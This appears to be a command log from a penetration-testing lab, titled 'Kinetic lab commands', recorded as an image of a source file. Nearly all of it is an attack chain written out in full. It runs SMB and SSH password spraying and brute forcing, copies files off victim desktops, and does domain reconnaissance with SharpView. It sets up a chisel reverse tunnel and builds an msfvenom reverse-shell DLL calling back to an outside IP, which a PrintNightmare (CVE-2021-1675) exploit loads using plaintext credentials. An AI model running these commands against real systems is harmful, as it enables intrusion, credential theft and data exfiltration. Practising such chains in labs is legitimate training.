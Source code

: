 ```
# +-+-+-+-+-+-+-+ +-+-+-+ +-+-+-+-+-+-+-+-+

# |K|i|n|e|t|i|c| |l|a|b| |c|o|m|m|a|n|d|s|

# +-+-+-+-+-+-+-+ +-+-+-+ +-+-+-+-+-+-+-+-+

## Uplink to Pulsar 

crackmapexec smb ./kinetic-targets.txt -u cyn -p xxxx --shares

python3 smbclient.py cyn@agentspecial

spray smb uplink ./uplink2.txt /usr/share/john/password.lst 4000 0

hydra -t 8 -L ./uplink1.txt -P /usr/share/john/password.lst uplink ssh

scp hammer@uplink:C:/Users/zombie/Desktop/RDP-Access.txt /opt/kinetic/RDP-Access.txt

scp hammer@uplink:C:/Users/zombie/Desktop/Spire-Talent-memo.pdf /opt/kinetic/Spire-Talent-memo2.pdf

ssh pulsar/andross@uplink

scp /opt/kinetic/SharpView.exe pulsar
\\
andross@uplink:C:/Users/andross/Desktop/SharpView.exe

SharpView.exe Get-DomainController

SharpView.exe Get-NetComputer

powershell

ls 
\\
dcpulsar\pipe\spoolss

scp /opt/kinetic/chisel.exe pulsar
\\
andross@uplink:C:/Users/andross/Desktop/chisel.exe

scp /usr/share/windows-binaries/nc.exe pulsar
\\
andross@uplink:C:/Users/andross/Desktop/nc.exe

msfvenom -f dll -p windows/x64/shell_reverse_tcp LPORT=4442 LHOST=10.65.3.90 -o e.dll

python3 smbclient.py pulsar/andross@uplink

chisel server --host xxx -p 5447 --socks5 --reverse

.\chisel.exe client xxx:5447 R:2600:socks

nc.exe -lvp 4442

proxychains -q python3 CVE-2021-1675.py 'PULSAR.CORP/andross:darkstar@10.65.10.92' '
\\
10.65.10.90\share\e.dll
'

## Broadcast to Exodus

nmap -sS -A -n -p1-60000 broadcast

```